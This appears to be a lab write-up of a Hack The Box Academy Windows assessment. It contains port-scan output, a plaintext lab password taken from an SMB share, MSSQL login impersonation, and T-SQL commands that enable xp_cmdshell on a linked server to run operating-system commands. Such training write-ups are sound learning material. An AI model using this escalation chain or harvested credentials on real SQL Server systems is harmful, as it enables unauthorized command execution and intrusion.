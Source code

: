 # Assessment Hard

## Enumeration

### Rustscan

```
Open 10.129.203.10:135
Open 10.129.203.10:445
Open 10.129.203.10:1433
Open 10.129.203.10:3389

```

### NMAP

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 07:27 EDT
Stats: 0:02:45 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.45% done; ETC: 07:34 (0:04:26 remaining)
Stats: 0:03:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.92% done; ETC: 07:34 (0:03:55 remaining)
Nmap scan report for 10.129.203.10
Host is up (0.20s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-29T11:21:57
|_Not valid after:  2053-06-29T11:21:57
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-06-29T11:34:08+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2023-06-28T11:21:47
|_Not valid after:  2023-12-28T11:21:47
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2023-06-29T11:33:29+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (85%)
Aggressive OS guesses: Microsoft Windows Server 2019 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-06-29T11:33:32
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.45 seconds

```



<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We have access to the smb share and got all the files which seems to be credentials of all of them.

* Fiona -> not sure what level and services
* John -> Database (in this box could be MSSQL)
* Simon -> not sure too

Tried Fiona with RDP and got the credentials.

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption><p>Fiona:48Ns72!bns74@S84NNNSl</p></figcaption></figure>

Connected to the RDP session but nothing found. Tried to use the credentials with windows authen to access the mssql

Where able to impersonate to another user using fiona

```
EXECUTE AS LOGIN = 'john'
```

Realized that in John's SMB there was a file hinting to the impersonation and external database (second database).

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption><p>information.txt</p></figcaption></figure>

Found remote database.

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption><p>WINSRV02\SQLEXPRESS</p></figcaption></figure>

But can't select the database server because of the impersonated user are not able to access.

I then realized that I can use the sqlcmd in the rdp session and get the list of users that I could impersonate.

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption><p>john and simon</p></figcaption></figure>

user John doesn't have any more privilege than the user Fiona, I tried to use user Simon and it was able to access the database where Fiona and John can't.

Listing the database gave me 2 different users julio and patric.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption><p>julio and patric</p></figcaption></figure>

I confirmed that both of them are not users of the operating system so the only option left is database user. I could try to access the database with the following user and try to change the database server.

Sadly both of them were unable to make a new connection to the database.

From the Hint on Hack the box forum I realized that the John user was an admin user but on the linked database. By so I could execute command through that server.

<pre><code>1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
2> go
<strong>1> EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'xp_cmdshell', 1;
</strong><strong>2> go
</strong><strong>Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
</strong><strong>1> EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];     
</strong><strong>2> go
</strong><strong>1> EXECUTE ("xp_cmdshell 'dir C:\Users'") AT [LOCAL.TEST.LINKED.SRV]
</strong><strong>2> go
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption><p>flag</p></figcaption></figure>

This assessment wasn't hard but impossible, given the contents in module, no one who just started the learning path could figure this out without help.
